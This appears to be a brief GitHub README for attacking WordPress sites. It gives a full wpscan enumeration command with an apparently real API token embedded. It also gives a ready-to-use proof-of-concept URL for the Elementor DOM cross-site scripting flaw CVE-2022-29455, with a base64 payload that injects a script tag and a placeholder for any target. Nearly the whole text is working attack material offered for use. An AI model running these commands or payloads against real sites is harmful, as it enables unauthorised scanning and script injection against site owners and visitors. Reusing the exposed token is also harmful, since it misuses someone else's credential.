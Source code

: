 Scan WORDPRESS BUGS
Wordpress Websites

WPSCAN full command:- 

sudo wpscan --url https://yourtargetdomain.com/ -e at,ap,cb,dbe --api-token rzp6gVsU35jbCTQM6xdJ5204r7Vs5iaYbKHXRCmyDf4 --rua --force


# CVE-2022-29455

Wordpress Vulnerability - XSS ( Cross-Site Scripting )

## **Vulnerability Location**
```https://add your target here/wp-content/plugins/elementor/assets/js/frontend.min.js```

## Vulnerable Version <= 3.5.5 versions

## **Proof of Concept (PoC)**
```https://add your target here/#elementor-action:action=lightbox&settings=eyJ0eXBlIjoibnVsbCIsImh0bWwiOiI8c2NyaXB0PmFsZXJ0KCd4c3MnKTwvc2NyaXB0PiJ9Cg==```

> Example - https://www.youtube.com/watch?v=4qvO_kSbhcE
